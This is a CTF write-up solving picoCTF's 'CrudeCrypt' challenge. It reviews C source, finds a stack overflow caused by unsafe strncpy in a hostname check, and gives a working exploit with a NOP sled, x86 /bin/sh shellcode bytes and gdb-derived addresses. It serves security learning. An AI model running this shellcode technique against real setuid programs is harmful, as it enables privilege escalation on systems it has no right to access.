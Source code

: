 **Name**: CrudeCrypt  
**Points**: 180  
**Type**: Binary Exploitation  
**Challenge**:  
Without proper maintainers, development of [Truecrypt](http://truecrypt.sourceforge.net/) has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the [code](https://picoctf.com/problem-static/binary/CrudeCrypt/crude_crypt.c) and read the contents of `flag.txt` from the server! The problem is at /home/crudecrypt/crude_crypt on the shell server.  
**Hint**:  
You can never trust user input!  
**Files**: crude_crypt.c

*****
# Code review

What main does:
- check if there are 3 arguments
- check if 1st argument is "encrypt" or "decrypt", and assign action function pointer
- if encrypt, setegid()
- open 2nd and 3rd argument as files
- read out file_password from stdin (max 128 bytes; possibly not null terminated)
- digest = MD5(password)
- call action(infile, outfile, digest)
- cleanup + exit

What decrypt_file does:
- get file size of infile (using fstats)
- calloc buffer of that size
- copy contents of infile to buffer
- try decrypt_buffer (this function should work as intended)
    if fail, return
- create file_header based on decrypted data; we can put whatever we want in the header!
- check if magic number is correct
    if not, return
- call check_hostname
    print error message if it doesn't match
- write_size = MIN(header->file_size, infile size - header size); possible signed/unsigned bug!
- write decrypted data to outfile

What check_hostname does:
- unsafe strncpy from header->host to stack buffer of size 32
- call safe_gethostname
- return after calling strcmp

```C
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

*****
# Exploitation

The bug we are going to exploit is in the function check_hostname. The strncpy is used unsafely, because it is being told to copy the contents from src to dest (for the length of **src**). A safe usage would copy the contents from src to dest (for the length of **dest**)! Using strncpy in this way is the same as using strcpy, which is unsafe if src is provided by the user. By copying a src string that is larger than dest, we can cause a stack overflow which we can use to overwrite eip.

We can exploit this, because after the decryption of the infile, the header is created based on the decrypted data without any checks. This means we control whatever is in the header struct. This includes host, which is usally a 32-byte, null-terminated string. By removing the null bytes at the end, we can increase the length of the host string to cause the stack overflow.

In order to verify if this bug works, we will try to encrypt a file full of "a"s, but right before the call to encrypt the data, we will tamper with the header. This will result in an encrypted file that will result in a SEGFAULT when decrypted. I will use password "a", but it doesn't really matter.

##### Testing the exploit:
```
$ cp -r /home/crudecrypt/ /tmp/delilled
$ cd /tmp/delilled/crudecrypt
$ python -c 'print "a"*100' > a_file
$ <use gdb to read a_file, overwrite any null characters in host, and store the result in enc_file>
$ ulimit -c unlimited
$ ./crude_crypt decrypt enc_file dec_file
-> File password: a
Segmentation fault (core dumped)
$ gdb -q crude_crypt core 
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x61616161 in ?? ()
```

Ok, so we know we have control of eip and the stack. After checking that the stack is executable ($ readelf crude_crypt -a | grep GNU_STACK), which it is, we will place nop slide + shellcode in our input and overwrite eip with the address of the middle of the nop slide.

Using gdb, we can determine that the host variable is located at `0xffffd5c0` and the return address is located at `0xffffd60c`. If we provide a reasonable nop sled (32 bytes), this should bring the address of the middle of the nop sled to `0xffffd64c`. It doesn't really matter what we use to fill the host variable before encryption, as long as there are no string terminators (I will be using "a"s). For fault tolerance, I will also be repeating the sled address 8 times, because teh return address is located 4 bytes from where the data starts.

##### The structure of the exploit data will be:
`(sled address)*8 + (\x90)*128 + shellcode`

##### Shellcode:
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

##### Executing the exploit:
```bash
$ python -c 'print "\x4c\xd6\xff\xff"*8 + "\x90"*128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"' > exploit_data
$ <use gdb to read exploit_data, overwrite any null characters in host, and store the result in exp_file>
$ cd /home/crude_crypt
$ ./crude_crypt decrypt /tmp/delilled/crudecrypt/exp_file /tmp/delilled/crudecrypt/dec_file
-> File password: a
$ cat flag.txt
writing_software_is_hard
```

If you're having trouble with landing on the nop sled, you can push it around by changing the arguments. Since the 3rd argument (outfile) doesn't matter, as long as it can be opened, you could try playing with this. Alternatively, you could create a bigger nop sled. I just got lucked that it worked right away, but I had trouble running it my tmp directory.

*****

REFERENCES:
- [stat struct](http://codewiki.wikidot.com/c:struct-stat)
- [fstat](http://linux.die.net/man/2/fstat)
- [mcrypt library](http://mcrypt.hellug.gr/lib/mcrypt.3.html)

